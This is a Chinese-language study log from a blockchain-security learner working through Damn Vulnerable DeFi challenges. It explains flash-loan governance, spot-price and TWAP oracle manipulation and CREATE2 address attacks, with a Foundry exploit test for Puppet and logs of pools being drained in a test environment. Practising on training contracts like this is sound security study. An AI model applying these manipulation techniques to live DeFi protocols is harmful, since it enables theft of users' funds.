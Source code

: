 ```yaml
---
timezone: Asia/Shanghai 
---
```


# Lori

1. 自我介绍
[Lori](https://www.notion.so/Lori-b62d3531f44f467baa56ddb161f0ef3e?pvs=21), 研三在读学生，研究方向为区块链安全。

2. 你认为你会完成本次残酷学习吗？
保证至少能够完成90%，并参加 BlazCTF。

## Notes

<!-- Content_START -->

### 2024.08.29

Ethernaut 之前我已经做完了了，写了部分[解析和PoC](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/ethernaut).
damn-vulnerable-defi 写了一半，接下来会接着完成剩余的部分，前面3天先复习。
[Selfie](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/selfie/Selfie.t.sol)
这是有关治理投票的相关攻击，算是比较经典的。
我们注意到，想要提出的提案必须满足以下条件：
1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
2. 接收者不能是治理合约本身msg.sender
第一点，由于没有对持有代币时间的限制，攻击者可以通过闪电贷来绕过第一点的检查。

### 2024.08.30

[Puppet](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
Root cause：Spot price
这是一个lending protocol, 通过uniswapv1交易对的瞬时价格来计算coll，攻击者可以通过swap来影响价格，从而掏空池子。

log：
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```

### 2024.08.31
[puppetV2](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels)
与最初版本不同的地方在于使用WETH-token交易对，现在还是关注质押WETH数量是如何计算的，
```
// PuppetV2.sol
    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return (_getOracleQuote(tokenAmount) * 3) / 10 ** 18;
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            // 获取交易对数量
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount * (10 ** 18), reservesToken, reservesWETH);
    }
// UniswapV2Library.sol
    function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
        require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
        require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
        amountB = (amountA * reserveB) / reserveA;
    }
```
同样的，质押物价值也是通过uniswapv2池子里交易对数量比值作为瞬时价格，突破点也是在这。与上边不同的地在于需要将eth置换成WETH。

### 2024.09.01
Take a break over the weekend~ 

### 2024.09.02
[SafeMiners](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/safe-miners/SafeMiners.t.sol)
做到这题发现自己fork的repo是V2的，明天再做更新的，有点大意了>v<
这类问题非常经典。具体来说，当代币转账到一个未部署的地址时，攻击者可以利用 `CREATE2` 指令，通过暴力计算不同的 salt 值来预测合约地址，直至找到目标地址。然后，攻击者可以将攻击合约部署到该地址，并执行代币转账操作。
```
Logs:
  🧨 Let's see if you can break it... 🧨
  dvt.balanceOf(DEPOSIT_ADDRESS): 2000042.000000000000000000
  dvt.balanceOf(ATTACKER): 0.000000000000000000
  dvt.balanceOf(DEPOSIT_ADDRESS): 0.000000000000000000
  dvt.balanceOf(ATTACKER): 2000042.000000000000000000
  
🎉 Congratulations, you can go to the next level! 🎉
```
### 2024.09.03
[puppetV3](https://github.com/Chocolatieee0929/damn-vulnerable-defi/blob/master/test/puppet-v3/PuppetV3)
In the `PuppetV3Pool` contract, the `borrow` function relies on Uniswap V3's TWAP Oracle, which uses a 10-minute interval for price averaging. While this TWAP Oracle is generally secure on the mainnet, it may be more vulnerable to manipulation when the pool has low liquidity and fewer transactions. In such scenarios, the TWAP Oracle's price is based on the first swap transaction in each block, making it easier for attackers to influence the oracle price by executing trades that affect this transaction.
To obtain the flag for this challenge, I manipulated the pool price by swapping 110e18 tokens to receive 99e18 WETH. I then waited for a certain period, as longer wait times are better (refer to the TWAP calculation formula). Finally, I performed the borrowing in the next block.
The required WETH in the lending pool dropped sharply from 3000000000000000000000000 to 143239918968367545.

```
[PASS] test_puppetV3() (gas: 826104)
Logs:
  ============= Before Attacker =============
  Player balance 1000000000000000000
  Player token balance 110000000000000000000
  Lending pool token balance 1000000000000000000000000
  Lending pool WETH balance 0
  Lending pool WETH required 3000000000000000000000000
   
  ============= Price Manipulation =============
  Swap Token: 110.000000000000000000
  Receive WETH: 99.999999999999999999
  time out 114s
  Lending pool WETH required 143239918968367545
   
  ============= After Attacker =============
  Player balance 856760081031632455
  Player token balance 9397757867327790806
  Lending pool token balance 0
  Lending pool WETH balance 143239918968367545
  Lending pool WETH required 0
```
<!-- Content_END -->
